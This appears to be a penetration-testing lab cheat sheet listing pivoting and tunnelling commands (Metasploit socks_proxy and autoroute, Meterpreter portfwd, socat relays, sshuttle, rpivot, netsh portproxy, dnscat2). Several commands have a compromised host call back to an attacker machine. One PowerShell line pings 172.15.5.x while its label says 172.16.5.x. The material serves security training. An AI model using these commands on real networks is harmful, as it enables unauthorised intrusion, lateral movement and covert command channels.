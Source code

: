 | `msf6> run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23` | Metasploit command that runs a ping sweep module against the specified network segment (RHOSTS=172.16.5.0/23). |
| `for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done` | For Loop used on a Linux-based system to discover devices in a specified network segment. |
| `for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"` | For Loop used on a Windows-based system to discover devices in a specified network segment. |
| `1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.15.5.$($_) -quiet)"}` | PowerShell one-liner used to ping addresses 1 - 254 in the specified network segment. |
| `msf6 > use auxiliary/server/socks_proxy` | Metasploit command that selects the socks_proxy auxiliary module. |
| `msf6 auxiliary(server/socks_proxy) > jobs` | Metasploit command that lists all currently running jobs. |
| `socks4 127.0.0.1 9050` | Line of text that should be added to /etc/proxychains.conf to ensure a SOCKS version 4 proxy is used in combination with proxychains on the specified IP address and port. |
| `Socks5 127.0.0.1 1080` | Line of text that should be added to /etc/proxychains.conf to ensure a SOCKS version 5 proxy is used in combination with proxychains on the specified IP address and port. |
| `msf6 > use post/multi/manage/autoroute` | Metasploit command used to select the autoroute module. |
| `meterpreter > help portfwd` | Meterpreter command used to display the features of the portfwd command. |
| `meterpreter > portfwd add -l 3300 -p 3389 -r <IPaddressofTarget>` | Meterpreter-based portfwd command that adds a forwarding rule to the current Meterpreter session. This rule forwards network traffic on port 3300 on the local machine to port 3389 (RDP) on the target. |
| `xfreerdp /v:localhost:3300 /u:victor /p:pass@123` | Uses xfreerdp to connect to a remote host through localhost:3300 using a set of credentials. Port forwarding rules must be in place for this to work properly. |
| `netstat -antp` | Used to display all (-a) active network connections with associated process IDs. -t displays only TCP connections. -n displays only numerical addresses. -p displays process IDs associated with each displayed connection. |
| `meterpreter > portfwd add -R -l 8081 -p 1234 -L <IPaddressofAttackHost>` | Meterpreter-based portfwd command that adds a forwarding rule that directs traffic coming on port 8081 to the port 1234 listening on the IP address of the Attack Host. |
| `meterpreter > bg` | Meterpreter-based command used to run the selected Meterpreter session in the background. Similar to background a process in Linux. |
| `socat TCP4-LISTEN:8080,fork TCP4:<IPaddressofAttackHost>:80` | Uses Socat to listen on port 8080 and then to fork when the connection is received. It will then connect to the attack host on port 80. |
| `socat TCP4-LISTEN:8080,fork TCP4:<IPaddressofTarget>:8443` | Uses Socat to listen on port 8080 and then to fork when the connection is received. Then it will connect to the target host on port 8443. |
| `plink -D 9050 ubuntu@<IPaddressofTarget>` | Windows-based command that uses PuTTY's Plink.exe to perform SSH dynamic port forwarding and establishes an SSH tunnel with the specified target. This will allow for proxy chaining on a Windows host, similar to what is done with Proxychains on a Linux-based host. |
| `sudo apt-get install sshuttle` | Uses apt-get to install the tool sshuttle. |
| `sudo sshuttle -r ubuntu@10.129.202.64 172.16.5.0 -v` | Runs sshuttle, connects to the target host, and creates a route to the 172.16.5.0 network so traffic can pass from the attack host to hosts on the internal network (172.16.5.0). |
| `sudo git clone https://github.com/klsecservices/rpivot.git` | Clones the rpivot project GitHub repository. |
| `sudo apt-get install python2.7` | Uses apt-get to install python2.7. |
| `python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0` | Used to run the rpivot server (server.py) on proxy port 9050, server port 9999, and listening on any IP address (0.0.0.0). |
| `scp -r rpivot ubuntu@<IPaddressOfTarget>` | Uses secure copy protocol to transfer an entire directory and all of its contents to a specified target. |
| `python2.7 client.py --server-ip 10.10.14.18 --server-port 9999` | Used to run the rpivot client (client.py) to connect to the specified rpivot server on the appropriate port. |
| `proxychains firefox-esr <IPaddressofTargetWebServer>:80` | Opens Firefox with Proxychains and sends the web request through a SOCKS proxy server to the specified destination web server. |
| `python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>` | Used to run the rpivot client to connect to a web server that is using HTTP-Proxy with NTLM authentication. |
| `netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.42.198 connectport=3389 connectaddress=172.16.5.25` | Windows-based command that uses netsh.exe to configure a portproxy rule called v4tov4 that listens on port 8080 and forwards connections to the destination 172.16.5.25 on port 3389. |
| `netsh.exe interface portproxy show v4tov4` | Windows-based command used to view the configurations of a portproxy rule called v4tov4. |
| `git clone https://github.com/iagox86/dnscat2.git` | Clones the dnscat2 project GitHub repository. |
| `sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache` | Used to start the dnscat2.rb server running on the specified IP address, port (53), and using the domain inlanefreight.local with the no-cache option enabled. |
| `git clone https://github.com/lukebaggett/dnscat2-powershell.git` | Clones the dnscat2-powershell project GitHub repository. |
| `Import-Module dnscat2.ps1` | PowerShell command used to import the dnscat2.ps1 tool. |